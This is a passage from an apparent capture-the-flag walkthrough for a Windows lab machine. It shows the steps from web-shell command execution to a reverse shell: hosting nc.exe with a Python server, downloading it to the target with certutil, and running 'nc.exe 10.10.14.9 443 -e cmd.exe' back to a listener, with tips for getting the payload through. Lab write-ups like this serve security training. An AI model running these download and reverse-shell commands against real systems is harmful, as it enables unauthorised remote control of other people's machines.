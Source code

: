 As we have command execution now, we will try to have a shell back for that we will be using ```nc.exe``` Please make sure that you have x64 version of the binary as it is 64 bit machine.

### Uploading nc.exe

```zsh
python -m SimpleHTTPServer 80
```
Run this in your work folder location and then your nc.exe will be hosted.

```console
certutil.exe -urlcache -split -f http://10.10.14.9:80/nc.exe nc.exe
```
Type the above command in the place where you had command execution.
```http://10.10.10.9/darkt3rr0r.phpcmd=```
**It is a good habit to save file in %TEMP% , so that executables can run**

![Uploaded nc.exe using certutil](./images/uploadedcertutil.png)

### Getting the shell back

Use this nice utility called ```rlwrap``` which gives you the access to use arrow keys to cycle thorugh commands in a remote shell. ```apt-get install rlwrap``` to install rlwrap.

Start a reverse shell along with rlwrap

```zsh 
rlwrap nc -lvnp 443
```
Execute the nc.exe to connect back with the windows shell.
Always try to encode it using URL encoder or Burp encoder. Sometimes browser fails to do so properly and you will not have shell back.

```console
nc.exe 10.10.14.9 443 -e cmd.exe 
```
![Running nc.exe ](./images/getting_shellback.png)

Now you can check that we are ```nt authority\iusr```
